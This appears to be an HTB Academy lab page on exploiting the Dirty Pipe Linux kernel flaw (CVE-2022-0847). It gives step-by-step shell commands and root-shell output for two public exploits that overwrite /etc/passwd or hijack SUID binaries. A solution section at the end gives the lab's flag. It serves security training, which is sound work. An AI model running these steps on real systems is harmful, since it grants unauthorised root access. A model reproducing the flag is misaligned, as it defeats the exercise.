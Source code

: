 A vulnerability in the Linux kernel, named [Dirty Pipe](https://dirtypipe.cm4all.com/) ([CVE-2022-0847](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0847)), allows unauthorized writing to root user files on Linux. Technically, the vulnerability is similar to the [Dirty Cow](https://dirtycow.ninja/) vulnerability discovered in 2016. All kernels from version `5.8` to `5.17` are affected and vulnerable to this vulnerability.

In simple terms, this vulnerability allows a user to write to arbitrary files as long as he has read access to these files. It is also interesting to note that Android phones are also affected. Android apps run with user rights, so a malicious or compromised app could take over the phone.

This vulnerability is based on pipes. Pipes are a mechanism of unidirectional communication between processes that are particularly popular on Unix systems. For example, we could edit the `/etc/passwd` file and remove the password prompt for the root. This would allow us to log in with the `su` command without the password prompt.

To exploit this vulnerability, we need to download a [PoC](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits) and compile it on the target system itself or a copy we have made.

#### Download Dirty Pipe Exploit

```shell-session
cry0l1t3@nix02:~$ git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
cry0l1t3@nix02:~$ cd CVE-2022-0847-DirtyPipe-Exploits
cry0l1t3@nix02:~$ bash compile.sh
```

After compiling the code, we have two different exploits available. The first exploit version (`exploit-1`) modifies the `/etc/passwd` and gives us a prompt with root privileges. For this, we need to verify the kernel version and then execute the exploit.

#### Verify Kernel Version

```shell-session
cry0l1t3@nix02:~$ uname -r

5.13.0-46-generic
```

#### Exploitation

```shell-session
cry0l1t3@nix02:~$ ./exploit-1

Backing up /etc/passwd to /tmp/passwd.bak ...
Setting root password to "piped"...
Password: Restoring /etc/passwd from /tmp/passwd.bak...
Done! Popping shell... (run commands now)

id

uid=0(root) gid=0(root) groups=0(root)
```

With the help of the 2nd exploit version (`exploit-2`), we can execute SUID binaries with root privileges. However, before we can do that, we first need to find these SUID binaries. For this, we can use the following command:

#### Find SUID Binaries

```shell-session
cry0l1t3@nix02:~$ find / -perm -4000 2>/dev/null

/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/xorg/Xorg.wrap
/usr/sbin/pppd
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/umount
/usr/bin/passwd
/usr/bin/fusermount
/usr/bin/sudo
/usr/bin/vmware-user-suid-wrapper
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/pkexec
/usr/bin/newgrp
```

Then we can choose a binary and specify the full path of the binary as an argument for the exploit and execute it.

#### Exploitation

```shell-session
cry0l1t3@nix02:~$ ./exploit-2 /usr/bin/sudo

[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))

# id

uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),1000(cry0l1t3)
```






#### Questions

Escalate the privileges and submit the contents of flag.txt as the answer.

* Download the VPN file from the HTB Academy webpage
* Open your VM and go to your Downloads page from the terminal
* Run the command " openvpn academy-regular.ovpn " (if it doesnt work try running the same command with sudo)
* Use the user and password given by HTB and then SSH to the target system spawned for you by running this command "ssh htb-student@\<ip given>\"
* Run Command " find / -perm -4000 2>/dev/null " and you will see you have access to a lot of binaries, including sudo in " /snap/core18/2620/usr/bin/sudo " which we will abuse
* For this solution I used the CVE-2022-0847, and i used the exploit 2
* Copy the script in a file named " exploit-2.c " (or whatever name you wanna give it)
* Compile the code with the command " gcc exploit-2.c -o exploit-2 " 
* Run the command " ./exploit-2 /snap/core18/2620/usr/bin/sudo " to get access as root
* Go to the root folder and open the flag file
* HTB{D1rTy_DiR7Y}
